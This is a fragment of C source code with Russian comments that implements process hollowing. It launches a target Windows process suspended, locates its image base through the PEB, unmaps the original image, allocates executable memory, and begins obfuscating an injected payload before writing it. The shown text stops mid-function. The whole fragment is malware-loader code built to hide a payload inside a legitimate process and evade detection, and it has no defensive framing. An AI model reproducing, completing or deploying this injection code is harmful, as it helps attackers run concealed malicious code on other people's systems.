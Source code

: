     // 1. Создаем процесс в приостановленном режиме
    if (!CreateProcessW(lpTargetProcess, NULL, NULL, NULL, FALSE, 
                      CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        return FALSE;
    }
    
    // 2. Получаем контекст основного потока
    ctx.ContextFlags = CONTEXT_FULL;
    if (!GetThreadContext(pi.hThread, &ctx)) {
        TerminateProcess(pi.hProcess, 0);
        return FALSE;
    }
    
    // 3. Читаем PEB для получения базового адреса
    LPVOID pPEB = NULL;
    #ifdef _WIN64
        pPEB = (LPVOID)(ctx.Rdx);   // x64: PEB находится в RDX
    #else
        pPEB = (LPVOID)(ctx.Ebx);   // x86: PEB находится в EBX
    #endif
    
    // 4. Получаем базовый адрес образа из PEB
    PVOID imageBase;
    SIZE_T bytesRead;
    #ifdef _WIN64
        ReadProcessMemory(pi.hProcess, (PVOID)((PBYTE)pPEB + 0x10), 
                         &imageBase, sizeof(PVOID), &bytesRead);
    #else
        ReadProcessMemory(pi.hProcess, (PVOID)((PBYTE)pPEB + 0x8), 
                         &imageBase, sizeof(PVOID), &bytesRead);
    #endif
    
    // 5. Читаем заголовки целевого PE файла
    BYTE hdrsBuffer[4096];
    ReadProcessMemory(pi.hProcess, imageBase, hdrsBuffer, 4096, &bytesRead);
    
    // 6. Получаем размер образа из заголовка
    PIMAGE_DOS_HEADER pDosHdr = (PIMAGE_DOS_HEADER)hdrsBuffer;
    PIMAGE_NT_HEADERS pNtHdrs = (PIMAGE_NT_HEADERS)(hdrsBuffer + pDosHdr->e_lfanew);
    DWORD sizeOfImage = pNtHdrs->OptionalHeader.SizeOfImage;
    
    // 7. Размещение внедряемого образа в целевом процессе
    if (payloadSize > sizeOfImage) {
        // Освободить существующую память и выделить новую
        NtUnmapViewOfSection(pi.hProcess, imageBase);
        imageBase = VirtualAllocEx(pi.hProcess, imageBase, payloadSize, 
                                 MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    }
    
    // 8. Динамически обфусцировать полезную нагрузку перед записью
    BYTE* obfuscatedPayload = (BYTE*)malloc(payloadSize);
    if (!obfuscatedPayload) {
        TerminateProcess(pi.hProcess, 0);
        return FALSE;
    }
    